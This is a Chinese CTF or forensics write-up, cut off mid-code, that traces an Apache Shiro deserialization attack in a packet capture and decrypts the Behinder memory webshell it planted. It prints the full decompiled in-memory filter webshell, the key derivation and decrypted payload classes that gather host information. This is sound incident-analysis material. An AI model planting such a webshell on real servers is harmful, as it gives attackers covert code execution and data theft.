




# 第一层: Apache Shiro CVE-2016-4437

打开`pcapng`抓包文件，发现大部分都是HTTP。尝试过滤所有HTTP请求：
```c
_ws.col.protocol == "HTTP"
```
发现前面都是`GET`扫描。后面有几个`POST`传递到了相同的路径`/favicondemo.ico`，打开发现携带Payload：
```http
POST /favicondemo.ico HTTP/1.1
...

eSG4ePsiwcRpTl8psR0ZbvQKhUKWCbEYAvU/JyGXXqr9DBZr...
```
尝试直接Base64解密，发现疑似加密了，无法解密。推测前面还有一部分挂马之类的处理。
尝试过滤所有`POST`请求：
```c
http.request.method == "POST"
```
发现第5009个HTTP流`POST`向了`/`，打开发现：
```http
GET / HTTP/1.1
Cookie: rememberMe=u5tKw/P2yG/b6D2LV3ALwGCfb8PsolbgWKkRVXLmAxz/o+0S1XodwNI7QhoBclf1eYgDhRg6oGcg/91vpFMLEozcWHp89rOoNGI+QB5tuxwyl3pqomtWZfydxMpuNmfjFgFOvMwNq9EHwZJ/l5+UrxevXyLxgp0dlgzoAPJVRFAcAEAzZ2BjJRhVSEJTEHqL
...
```

```http
HTTP/1.1 302
Set-Cookie: rememberMe=deleteMe; Path=/; Max-Age=0; Expires=Mon, 05-Jan-2026 05:54:56 GMT
Location: http://10.1.33.69:8080/login
...
```

等等一系列请求。
根据其`JSESSIONID`可知是Java后端，根据`rememberMe=deleteMe`可知这是在尝试利用Apache Shiro的反序列化漏洞（CVE-2016-4437）。前面部分在进行爆破，尝试得到其AES加密的Key。往后翻，可找到：
```http
GET / HTTP/1.1
Cookie: rememberMe=39kG6QV4e6yKVk5izql0TAG8PY/lia9KErrRuLjj+bBlO5CC+5Do9W6XnTCNtK5ZfFcS+Cbornnr/Zj0xiyigR228Lh4HCcjOJI7j+yWPDs6PjmaHaDHGte58v+RwwSnxWsgCK1T3UEVesTB0YlR8hGmC6k1skwQEbZpapvpLBa6HdqHQM0OborIzk8GzM4X
...
```

服务端返回：
```http
HTTP/1.1 302
Location: http://10.1.33.69:8080/login
...
```
没有再`Set-Cookie`，表明这里已经成功碰撞出了AES密钥。往后还有
```http
GET / HTTP/1.1
Cookie: rememberMe=D5RAhUGqvWLViba9P...h92mxoUt9p
Authorization: Basic d2hvYW1p
...
```

服务端返回：
```http
HTTP/1.1 200
...

$$$cm9vdAo=$$$
```
对`cm9vdAo=`进行Base64解密，可得到：`root`，对`Authorization`头里的`d2hvYW1p`解密，可得到`whoami`，发现这里已经实现了RCE。
随后分别执行并返回了：
```shell
pwd
/

ls -la
total 21844
drwxr-xr-x   1 root root     4096 Jan  6 03:43 .
drwxr-xr-x   1 root root     4096 Jan  6 03:43 ..
-rwxr-xr-x   1 root root        0 Jan  6 03:43 .dockerenv
drwxr-xr-x   1 root root     4096 Oct 21  2016 bin
drwxr-xr-x   2 root root     4096 Sep 12  2016 boot
drwxr-xr-x   5 root root      340 Jan  6 03:43 dev
drwxr-xr-x   1 root root     4096 Jan  6 03:43 etc
drwxr-xr-x   2 root root     4096 Sep 12  2016 home
drwxr-xr-x   1 root root     4096 Oct 31  2016 lib
drwxr-xr-x   2 root root     4096 Oct 20  2016 lib64
drwxr-xr-x   2 root root     4096 Oct 20  2016 media
drwxr-xr-x   2 root root     4096 Oct 20  2016 mnt
drwxr-xr-x   2 root root     4096 Oct 20  2016 opt
dr-xr-xr-x 167 root root        0 Jan  6 03:43 proc
drwx------   2 root root     4096 Oct 20  2016 root
drwxr-xr-x   3 root root     4096 Oct 20  2016 run
drwxr-xr-x   2 root root     4096 Oct 20  2016 sbin
-rw-r--r--   1 root root 22290368 Dec 19  2019 shirodemo-1.0-SNAPSHOT.jar
drwxr-xr-x   2 root root     4096 Oct 20  2016 srv
dr-xr-xr-x  13 root root        0 Jan  6 03:43 sys
drwxrwxrwt   1 root root     4096 Jan  6 03:43 tmp
drwxr-xr-x   1 root root     4096 Oct 31  2016 usr
drwxr-xr-x   1 root root     4096 Oct 31  2016 var

w
 05:56:48 up 9 days,  2:03,  0 users,  load average: 1.44, 0.84, 0.33
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
```
发现并没有什么有用的信息。
之后发送了一个：
```http
POST / HTTP/1.1
...
Cookie: rememberMe=YoANb79EEs8RT9LYVMfOgU1OPqUGfQkiNLKLem...J1I/ASq9A==
p: HWmc2TLDoihdlr0N
path: /favicondemo.ico
...

user=yv66vgAAADQB5...GCQ%3D%3D
```

服务端返回了：
```http
HTTP/1.1 200
Content-Type: text/html;charset=UTF-8
Transfer-Encoding: chunked
Date: Tue, 06 Jan 2026 05:57:43 GMT
Connection: close

->|Success|<-
```
之后就没有类似的包了，推测是挂了个马。

# 第二层: 冰蝎 WebShell 内存马

对上面`POST`请求体的`user`参数直接进行Base64解密可发现是`CAFEBABE`开头的Java类，导出后尝试使用Jadx打开，可得到：



**代码部分 - 点击展开**

```java
package com.summersec.x;

import java.io.IOException;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.math.BigInteger;
import java.security.InvalidKeyException;
import java.security.MessageDigest;
import java.security.NoSuchAlgorithmException;
import java.util.EnumSet;
import java.util.HashMap;
import java.util.Map;
import javax.crypto.Cipher;
import javax.crypto.NoSuchPaddingException;
import javax.crypto.spec.SecretKeySpec;
import javax.servlet.DispatcherType;
import javax.servlet.Filter;
import javax.servlet.FilterChain;
import javax.servlet.FilterConfig;
import javax.servlet.FilterRegistration;
import javax.servlet.ServletContext;
import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletRequestWrapper;
import javax.servlet.ServletResponse;
import javax.servlet.ServletResponseWrapper;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpSession;
import org.apache.catalina.LifecycleState;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.connector.ResponseFacade;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.util.LifecycleBase;
  
/* loaded from: download.class */
public final class BehinderFilter extends ClassLoader implements Filter {
    public HttpServletRequest request;
    public HttpServletResponse response;
    public String cs;
    public String Pwd;
    public String path;

    public BehinderFilter() {
        this.request = null;
        this.response = null;
        this.cs = "UTF-8";
        this.Pwd = "eac9fa38330a7535";
        this.path = "/favicondemo.ico";
    }
  
    public BehinderFilter(ClassLoader c) {
        super(c);
        this.request = null;
        this.response = null;
        this.cs = "UTF-8";
        this.Pwd = "eac9fa38330a7535";
        this.path = "/favicondemo.ico";
    }
  
    public Class g(byte[] b) {
        return super.defineClass(b, 0, b.length);
    }
  
    public static String md5(String s) throws NoSuchAlgorithmException {
        String ret = null;
        try {
            MessageDigest m = MessageDigest.getInstance("MD5");
            m.update(s.getBytes(), 0, s.length());
            ret = new BigInteger(1, m.digest()).toString(16).substring(0, 16);
        } catch (Exception e) {
        }
        return ret;
    }
  
    public boolean equals(Object obj) throws NoSuchFieldException, ClassNotFoundException {
        parseObj(obj);
        this.Pwd = md5(this.request.getHeader("p"));
        this.path = this.request.getHeader("path");
        StringBuffer output = new StringBuffer();
        try {
            this.response.setContentType("text/html");
            this.request.setCharacterEncoding(this.cs);
            this.response.setCharacterEncoding(this.cs);
            output.append(addFilter());
        } catch (Exception var7) {
            output.append("ERROR:// " + var7.toString());
        }
        try {
            this.response.getWriter().print("->|" + output.toString() + "|<-");
            this.response.getWriter().flush();
            this.response.getWriter().close();
            return true;
        } catch (Exception e) {
            return true;
        }
    }
  
    public void parseObj(Object obj) throws NoSuchFieldException, ClassNotFoundException {
        if (obj.getClass().isArray()) {
            Object[] data = (Object[]) obj;
            this.request = (HttpServletRequest) data[0];
            this.response = (HttpServletResponse) data[1];
            return;
        }
        try {
            Class clazz = Class.forName("javax.servlet.jsp.PageContext");
            this.request = (HttpServletRequest) clazz.getDeclaredMethod("getRequest", new Class[0]).invoke(obj, new Object[0]);
            this.response = (HttpServletResponse) clazz.getDeclaredMethod("getResponse", new Class[0]).invoke(obj, new Object[0]);
        } catch (Exception e) {
            if (obj instanceof HttpServletRequest) {
                this.request = (HttpServletRequest) obj;
                try {
                    Field req = this.request.getClass().getDeclaredField("request");
                    req.setAccessible(true);
                    HttpServletRequest request2 = (HttpServletRequest) req.get(this.request);
                    Field resp = request2.getClass().getDeclaredField("response");
                    resp.setAccessible(true);
                    this.response = (HttpServletResponse) resp.get(request2);
                } catch (Exception e2) {
                    try {
                        this.response = (HttpServletResponse) this.request.getClass().getDeclaredMethod("getResponse", new Class[0]).invoke(obj, new Object[0]);
                    } catch (Exception e3) {
                    }
                }
            }
        }
    }
  
    public String addFilter() throws Exception {
        Class filterMap;
        ServletContext servletContext = this.request.getServletContext();
        String filterName = this.path;
        String url = this.path;
        if (servletContext.getFilterRegistration(filterName) == null) {
            StandardContext standardContext = null;
            Field stateField = null;
            try {
                try {
                    Field contextField = servletContext.getClass().getDeclaredField("context");
                    contextField.setAccessible(true);
                    ApplicationContext applicationContext = (ApplicationContext) contextField.get(servletContext);
                    Field contextField2 = applicationContext.getClass().getDeclaredField("context");
                    contextField2.setAccessible(true);
                    standardContext = (StandardContext) contextField2.get(applicationContext);
                    stateField = LifecycleBase.class.getDeclaredField("state");
                    stateField.setAccessible(true);
                    stateField.set(standardContext, LifecycleState.STARTING_PREP);
                    FilterRegistration.Dynamic filterRegistration = servletContext.addFilter(filterName, this);
                    filterRegistration.addMappingForUrlPatterns(EnumSet.of(DispatcherType.REQUEST), false, new String[]{url});
                    Method filterStartMethod = StandardContext.class.getMethod("filterStart", new Class[0]);
                    filterStartMethod.setAccessible(true);
                    filterStartMethod.invoke(standardContext, (Object[]) null);
                    stateField.set(standardContext, LifecycleState.STARTED);
                    try {
                        filterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
                    } catch (Exception e) {
                        filterMap = Class.forName("org.apache.catalina.deploy.FilterMap");
                    }
                    Method findFilterMaps = standardContext.getClass().getMethod("findFilterMaps", new Class[0]);
                    Object[] filterMaps = (Object[]) findFilterMaps.invoke(standardContext, new Object[0]);
                    for (int i = 0; i < filterMaps.length; i++) {
                        Object filterMapObj = filterMaps[i];
                        Method findFilterMaps2 = filterMap.getMethod("getFilterName", new Class[0]);
                        String name = (String) findFilterMaps2.invoke(filterMapObj, new Object[0]);
                        if (name.equalsIgnoreCase(filterName)) {
                            filterMaps[i] = filterMaps[0];
                            filterMaps[0] = filterMapObj;
                        }
                    }
                    stateField.set(standardContext, LifecycleState.STARTED);
                    return "Success";
                } catch (Exception var22) {
                    String var11 = var22.getMessage();
                    stateField.set(standardContext, LifecycleState.STARTED);
                    return var11;
                }
            } catch (Throwable th) {
                stateField.set(standardContext, LifecycleState.STARTED);
                throw th;
            }
        }
        return "Filter already exists";
    }
  
    /* JADX WARN: Multi-variable type inference failed */
    public void doFilter(ServletRequest req, ServletResponse resp, FilterChain chain) throws IllegalAccessException, NoSuchPaddingException, ServletException, NoSuchMethodException, NoSuchAlgorithmException, SecurityException, InvalidKeyException, IOException, IllegalArgumentException, InvocationTargetException {
        HttpSession session = ((HttpServletRequest) req).getSession();
        ServletRequest servletRequestInvoke = req;
        ServletResponse servletResponseInvoke = resp;
        if (!(servletRequestInvoke instanceof RequestFacade)) {
            try {
                Method getRequest = ServletRequestWrapper.class.getMethod("getRequest", new Class[0]);
                servletRequestInvoke = getRequest.invoke(this.request, new Object[0]);
                while (!(servletRequestInvoke instanceof RequestFacade)) {
                    servletRequestInvoke = getRequest.invoke(servletRequestInvoke, new Object[0]);
                }
            } catch (Exception e) {
            }
        }
        try {
            if (!(servletResponseInvoke instanceof ResponseFacade)) {
                Method getResponse = ServletResponseWrapper.class.getMethod("getResponse", new Class[0]);
                servletResponseInvoke = getResponse.invoke(this.response, new Object[0]);
                while (!(servletResponseInvoke instanceof ResponseFacade)) {
                    servletResponseInvoke = getResponse.invoke(servletResponseInvoke, new Object[0]);
                }
            }
        } catch (Exception e2) {
        }
        Map obj = new HashMap();
        obj.put("request", servletRequestInvoke);
        obj.put("response", servletResponseInvoke);
        obj.put("session", session);
        try {
            session.putValue("u", this.Pwd);
            Cipher c = Cipher.getInstance("AES");
            c.init(2, new SecretKeySpec(this.Pwd.getBytes(), "AES"));
            new BehinderFilter(getClass().getClassLoader()).g(c.doFinal(base64Decode(req.getReader().readLine()))).newInstance().equals(obj);
        } catch (Exception var7) {
            var7.printStackTrace();
        }
    }
  
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Object decoder = Class.forName("java.util.Base64").getMethod("getDecoder", new Class[0]).invoke(null, new Object[0]);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
  
    public void init(FilterConfig filterConfig) throws ServletException {
    }
  
    public void destroy() {
    }
}
```


发现是个冰蝎Behinder WebShell。分析可知它会将请求内容和返回值通过AES加密/解密，同时若请求头中携带`p`，就将`p`的内容md5加密之后取前16位作为AES密钥。  
根据上面的请求内容可知`p: HWmc2TLDoihdlr0N`，md5加密得到`1f2c8075acd3d118674e99f8e61b9596`，取前16位即`1f2c8075acd3d118`就是AES密码。  
同时，设置了`/favicondemo.ico`作为C2通信地址，这也就说明之前看到的下面的这个URL的POST数据是这里通信的记录。  

接着打开之前找到的`POST`抓包，发现第40552个HTTP Stream内包含大量往返。  
编写一个Python脚本尝试以密钥`1f2c8075acd3d118`解密其中第1个请求的Payload：
```python
import Crypto.Cipher
from Crypto.Cipher import AES
import base64

def decrypt_behinder(data, key_str):
    key = key_str.encode('utf-8')
    raw_data = base64.b64decode(data)
    cipher = AES.new(key, AES.MODE_ECB)
    decrypted = cipher.decrypt(raw_data)
    # 去除 PKCS5Padding
    padding_len = decrypted[-1]
    return decrypted[:-padding_len]

key = "1f2c8075acd3d118"
body = "qjYfBvYIRKQ...ciIgehs="

data=decrypt_behinder(body, key)
print(data)
with open(f"payload2.bin", "wb") as file:
	file.write(data) 
```
发现开头`CAFEBABE`是Java Class的文件头。用Jadx打开：


**代码部分 - 点击展开**

_内容很长，不想看可以折叠_

```java
package net.qmrqiui;

import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.LinkedHashMap;
import java.util.Map;
import java.util.Random;
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;

/* compiled from: Echo.java */
/* loaded from: payload-favicondemo.ico.class */
public class Fmdrfajtrr {
    public static String content;
    public static String payloadBody;
    private Object Request;
    private Object Response;
    private Object Session;

    private byte[] Encrypt(byte[] bArr) throws Exception {
        SecretKeySpec secretKeySpec = new SecretKeySpec("1f2c8075acd3d118".getBytes("utf-8"), "AES");
        Cipher cipher = Cipher.getInstance("AES/ECB/PKCS5Padding");
        cipher.init(1, secretKeySpec);
        byte[] bArrDoFinal = cipher.doFinal(bArr);
        try {
            Class<?> cls = Class.forName("java.util.Base64");
            Object objInvoke = cls.getMethod("getEncoder", null).invoke(cls, null);
            bArrDoFinal = (byte[]) objInvoke.getClass().getMethod("encode", byte[].class).invoke(objInvoke, bArrDoFinal);
        } catch (Throwable th) {
            Object objNewInstance = Class.forName("sun.misc.BASE64Encoder").newInstance();
            bArrDoFinal = ((String) objNewInstance.getClass().getMethod("encode", byte[].class).invoke(objNewInstance, bArrDoFinal)).replace("\n", "").replace("\r", "").getBytes();
        }
        return bArrDoFinal;
    }

    public Fmdrfajtrr() {
        content = "";
        content += "1oMRO2dvZFDzLDMX8hNiYBh2qzBvSzSi1EaD2vCMM7Q8kxqxrX085JlqFrt40qku6RCR0D0JF3tPc5fYUWW5Op0YP9hLpG8MPlgtOpMYbdDH1iGmuWO75I3XVO9evcyqhb19Sk3Et99wkKl5fsYAWZKEofJmsis7Vv2uCRwGbsE6LvpmqNGvJnB3v";
    }

    public boolean equals(Object obj) throws IllegalAccessException, NoSuchMethodException, SecurityException, IllegalArgumentException, InvocationTargetException {
        Map<String, String> result = new LinkedHashMap<>();
        try {
            try {
                fillContext(obj);
                result.put("status", "success");
                result.put("msg", content);
                try {
                    Object so = this.Response.getClass().getMethod("getOutputStream", new Class[0]).invoke(this.Response, new Object[0]);
                    Method write = so.getClass().getMethod("write", byte[].class);
                    write.invoke(so, Encrypt(buildJson(result, true).getBytes("UTF-8")));
                    so.getClass().getMethod("flush", new Class[0]).invoke(so, new Object[0]);
                    so.getClass().getMethod("close", new Class[0]).invoke(so, new Object[0]);
                    return true;
                } catch (Exception e) {
                    e.printStackTrace();
                    return true;
                }
            } catch (Exception e2) {
                result.put("msg", e2.getMessage());
                result.put("status", "success");
                try {
                    Object so2 = this.Response.getClass().getMethod("getOutputStream", new Class[0]).invoke(this.Response, new Object[0]);
                    Method write2 = so2.getClass().getMethod("write", byte[].class);
                    write2.invoke(so2, Encrypt(buildJson(result, true).getBytes("UTF-8")));
                    so2.getClass().getMethod("flush", new Class[0]).invoke(so2, new Object[0]);
                    so2.getClass().getMethod("close", new Class[0]).invoke(so2, new Object[0]);
                    return true;
                } catch (Exception e3) {
                    e3.printStackTrace();
                    return true;
                }
            }
        } catch (Throwable th) {
            try {
                Object so3 = this.Response.getClass().getMethod("getOutputStream", new Class[0]).invoke(this.Response, new Object[0]);
                Method write3 = so3.getClass().getMethod("write", byte[].class);
                write3.invoke(so3, Encrypt(buildJson(result, true).getBytes("UTF-8")));
                so3.getClass().getMethod("flush", new Class[0]).invoke(so3, new Object[0]);
                so3.getClass().getMethod("close", new Class[0]).invoke(so3, new Object[0]);
            } catch (Exception e4) {
                e4.printStackTrace();
            }
            throw th;
        }
    }

    private String buildJson(Map<String, String> entity, boolean encode) throws Exception {
        StringBuilder sb = new StringBuilder();
        System.getProperty("java.version");
        sb.append("{");
        for (String key : entity.keySet()) {
            sb.append("\"" + key + "\":\"");
            String value = entity.get(key);
            if (encode) {
                value = base64encode(value.getBytes());
            }
            sb.append(value);
            sb.append("\",");
        }
        if (sb.toString().endsWith(",")) {
            sb.setLength(sb.length() - 1);
        }
        sb.append("}");
        return sb.toString();
    }

    private void fillContext(Object obj) throws Exception {
        if (obj.getClass().getName().indexOf("PageContext") >= 0) {
            this.Request = obj.getClass().getMethod("getRequest", new Class[0]).invoke(obj, new Object[0]);
            this.Response = obj.getClass().getMethod("getResponse", new Class[0]).invoke(obj, new Object[0]);
            this.Session = obj.getClass().getMethod("getSession", new Class[0]).invoke(obj, new Object[0]);
        } else {
            Map<String, Object> objMap = (Map) obj;
            this.Session = objMap.get("session");
            this.Response = objMap.get("response");
            this.Request = objMap.get("request");
        }
        this.Response.getClass().getMethod("setCharacterEncoding", String.class).invoke(this.Response, "UTF-8");
    }

    private String base64encode(byte[] data) throws Exception {
        String result;
        System.getProperty("java.version");
        try {
            getClass();
            Class Base64 = Class.forName("java.util.Base64");
            Object Encoder = Base64.getMethod("getEncoder", null).invoke(Base64, null);
            result = (String) Encoder.getClass().getMethod("encodeToString", byte[].class).invoke(Encoder, data);
        } catch (Throwable th) {
            getClass();
            Object Encoder2 = Class.forName("sun.misc.BASE64Encoder").newInstance();
            String result2 = (String) Encoder2.getClass().getMethod("encode", byte[].class).invoke(Encoder2, data);
            result = result2.replace("\n", "").replace("\r", "");
        }
        return result;
    }

    private byte[] getMagic() throws Exception {
        String key = this.Session.getClass().getMethod("getAttribute", String.class).invoke(this.Session, "u").toString();
        int magicNum = Integer.parseInt(key.substring(0, 2), 16) % 16;
        Random random = new Random();
        byte[] buf = new byte[magicNum];
        for (int i = 0; i < buf.length; i++) {
            buf[i] = (byte) random.nextInt(256);
        }
        return buf;
    }
}
```


发现只是返回一串`1oMRO2dvZFDzLDMX8h...mqNGvJnB3v`数据并base64加密。继续解密回包，得到：
```json
{"status":"c3VjY2Vzcw==","msg":"MW9NUk8yZHZaRkR6TERNWDhoTmlZQmgycXpCdlN6U2kxRWFEMnZDTU03UThreHF4clgwODVKbHFGcnQ0MHFrdTZSQ1IwRDBKRjN0UGM1ZllVV1c1T3AwWVA5aExwRzhNUGxndE9wTVliZERIMWlHbXVXTzc1STNYVk85ZXZjeXFoYjE5U2szRXQ5OXdrS2w1ZnNZQVdaS0VvZkptc2lzN1Z2MnVDUndHYnNFNkx2cG1xTkd2Sm5CM3Y="}
```

`msg`字段Base64解密得到：`1oMRO2dvZFDzLDMX8hNiYBh2qzBvSzSi1EaD2vCMM7Q8kxqxrX085JlqFrt40qku6RCR0D0JF3tPc5fYUWW5Op0YP9hLpG8MPlgtOpMYbdDH1iGmuWO75I3XVO9evcyqhb19Sk3Et99wkKl5fsYAWZKEofJmsis7Vv2uCRwGbsE6LvpmqNGvJnB3v`，证明猜想正确。

接着继续解密并逆向第二个请求：


**代码部分 - 点击展开**

_内容很长，不想看可以折叠_


```java
package org.arkpoti.qegfs;

import java.io.File;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.net.Inet4Address;
import java.net.InetAddress;
import java.net.NetworkInterface;
import java.net.SocketException;
import java.util.Enumeration;
import java.util.HashMap;
import java.util.Map;
import java.util.Properties;
import java.util.Random;
import java.util.Set;
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;

/* compiled from: BasicInfo.java */
/* loaded from: payload-favicondemo(2).ico.class */
public class Huhmocmx {
    public static String whatever;
    private Object Request;
    private Object Response;
    private Object Session;

    private byte[] Encrypt(byte[] bArr) throws Exception {
        SecretKeySpec secretKeySpec = new SecretKeySpec("1f2c8075acd3d118".getBytes("utf-8"), "AES");
        Cipher cipher = Cipher.getInstance("AES/ECB/PKCS5Padding");
        cipher.init(1, secretKeySpec);
        byte[] bArrDoFinal = cipher.doFinal(bArr);
        try {
            Class<?> cls = Class.forName("java.util.Base64");
            Object objInvoke = cls.getMethod("getEncoder", null).invoke(cls, null);
            bArrDoFinal = (byte[]) objInvoke.getClass().getMethod("encode", byte[].class).invoke(objInvoke, bArrDoFinal);
        } catch (Throwable th) {
            Object objNewInstance = Class.forName("sun.misc.BASE64Encoder").newInstance();
            bArrDoFinal = ((String) objNewInstance.getClass().getMethod("encode", byte[].class).invoke(objNewInstance, bArrDoFinal)).replace("\n", "").replace("\r", "").getBytes();
        }
        return bArrDoFinal;
    }

    public Huhmocmx() {
        whatever = "";
        whatever += "nrUlBDIWY47Voq6K0Ro3FKVOpcOgruIO6bGpwEV5tlFcaaUoHwS2bwC1fwgrXuOLNdQIFovDsRYeeoKSIJAgcfLk3PaESDGIkdJTGGMuoc9bXnBzFry0xgmVYy8gHAKaQFUB0MpL39iuIgGUqA3VdLFOQTuLL83nO2jM5E5molVy30DbTUSYVuJryWB0l7nBKIzDn8axk7wPmDyQ6NXiDT68y3aWEWiwI6hnv2sJZwhdIABULpbv0U3C0ble2IrQjKbba5YkdEig5PzTa1oGYgW9oJSyYvtAeABtnzcY6UmgPYRHs37GWJdPKRctwReHJ3SmLYMqeJyyCDp4mURvctnDgfakpjGxmrvTpGYex8mtsogYatwG3yHso81lLM0jFfYYe3QY7Qywg6SL5GgP9p5Ry2ZZ1ksOfxSguSw3KeIjCV7RaGoZyO5YiC8zWWoLAfERhdKlMGixQv6DrR1LNuI0UdJTRWjEtZ0OEFtiG5AXxaxEtxfxUcg0HBJqxfs5aeCurRoGbg3c5M1TaTxFnDx2tnibB9XyS6FGzmOibZBGV8SJo2vf3MuUXwXrI3w8hWsLu4oELUljNSUGhwO5X1gUdDL4XMk0j1dlTIbcjyYnwwAKF9tP3Hlq6ryo9SIbUkJ7gYFl5V09WKjPfZm65qnHGROfrd5n2d7hePLJ0GyD867DHO9K4U3NAbIgKQovDlFSsmjMAcE1jjeAuMl90xvpHeRZucgwZEzZdJb3e4wyufhmXkJy";
    }

    public boolean equals(Object obj) throws IllegalAccessException, NoSuchMethodException, SecurityException, IllegalArgumentException, InvocationTargetException {
        Map<String, String> result = new HashMap<>();
        try {
            fillContext(obj);
            StringBuilder basicInfo = new StringBuilder("<br/><font size=2 color=red>环境变量:</font><br/>");
            Map<String, String> env = System.getenv();
            for (String name : env.keySet()) {
                basicInfo.append(name + "=" + env.get(name) + "<br/>");
            }
            basicInfo.append("<br/><font size=2 color=red>JRE系统属性:</font><br/>");
            Properties props = System.getProperties();
